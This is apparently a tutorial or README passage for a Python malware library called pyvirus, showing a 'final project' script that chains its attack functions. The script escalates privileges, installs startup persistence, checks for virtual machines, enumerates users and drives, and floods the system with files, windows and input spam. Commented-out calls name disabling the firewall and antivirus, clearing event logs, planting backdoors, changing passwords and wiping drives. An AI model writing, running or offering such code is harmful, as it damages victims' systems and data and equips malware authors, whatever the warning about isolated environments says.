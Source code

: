 ### Project 2: Combined Attack (Final Project)

> **Final Warning:**  
> Running this project can cause severe damage to your system. This code calls all the functionalities of the library in a combined manner. Execute it only in isolated and controlled environments (such as virtual machines).

```python
# final_project.py
from pyvirus import TOOLS, VIRUS

def final_attack():
    # 1. Display system information and check for administrator privileges
    print("Operating System:", TOOLS.platform())
    if not TOOLS.is_admin():
        print("Administrator access not available; requesting elevated privileges...")
        TOOLS.Get_Admin_Access()  # Request administrator privileges
    else:
        print("Administrator access confirmed.")
    
    # 2. Register the program as a startup application
    print("Setting up the program in startup...")
    TOOLS.Set_StartUP()
    
    # 3. Gather environment information
    print("Checking virtual machine status:", TOOLS.Are_we_in_virtual_machine())
    print("Drive List:", TOOLS.list_drives())
    print("System Users:", TOOLS.get_all_users())
    print("Current User:", TOOLS.get_current_user())
    
    # 4. Execute several attacks concurrently
    print("Executing parallel attacks...")
    TOOLS.run_functions_parallel(
        lambda: VIRUS.file_make(path="", nb=8, word="PyVirus Attack"),
        lambda: VIRUS.folder_make(path="", nb=8),
        VIRUS.open_cmd,
        VIRUS.Mouse_Spamming,
        lambda: VIRUS.Keyboard_Samming("PyVirus is active!")
    )
    
    # 5. Invoke additional complementary functions (Warning: These functions are highly destructive and should be tested only in isolated environments)
    # VIRUS.down_firewall()
    # VIRUS.set_null_Event_Log()
    # VIRUS.down_antivirus()
    # VIRUS.down_internet_network()
    # VIRUS.make_backdoor()
    # VIRUS.shutdown(0)
    # VIRUS.restart(0)
    # VIRUS.BlueScreen_Kill_Windows_systemdrive()
    # VIRUS.BlueScreen_Kill_Windows_system32()
    # VIRUS.Kill_All_Drive()
    # VIRUS.user_make()
    # VIRUS.change_password_users()
    # VIRUS.Block_Mouse_KeyBoard()
    # VIRUS.Kill_Drive_Data()
    # VIRUS.Full_Drive_Evil()
    
    # 6. Use the WINDOWS subclass functions (only applicable for Windows systems)
    # VIRUS.WINDOWS.Kill_power_button()
    # VIRUS.WINDOWS.down_task_manager_reg()
    # VIRUS.WINDOWS.down_task_manager_proc()
    # VIRUS.WINDOWS.BlueScreen_Kill_Windows_attrib()
    
```